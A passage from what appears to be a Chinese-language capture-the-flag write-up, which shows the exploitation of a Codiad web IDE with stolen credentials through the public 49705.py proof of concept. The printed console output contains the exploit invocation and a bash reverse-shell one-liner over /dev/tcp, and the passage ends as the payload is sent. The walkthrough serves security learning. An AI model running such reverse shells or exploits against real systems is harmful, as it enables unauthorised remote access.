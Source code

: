 ![](img/a375e8a7484271f608b0e4e300b40f5c.png)

**图 Codiad 应用程序**

我简单地看了一下这个项目，从文件名和粗略阅读的代码中猜测，这似乎是某种视频流应用程序。但是现在我有进入 Codiad 帐户的有效凭证，我可以继续利用。

## 剥削

有了有效的 Codiad 登录，我现在可以继续配置 Codiad 漏洞并将其武器化。我决定使用由`searchsploit`提供的`49705.py`概念验证——首先打开一个 netcat 监听器，然后启动漏洞利用:

```
**└─$ python3 49705.py http://<boot2root ip>:62337/ john password <attackbox ip> 4445**
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/<boot2root ip>/4445 0>&1 2>&1"' | [... snip ...][+] Please confirm that you have done the two command above [y/n]
[Y/n] **Y**
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path…
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```
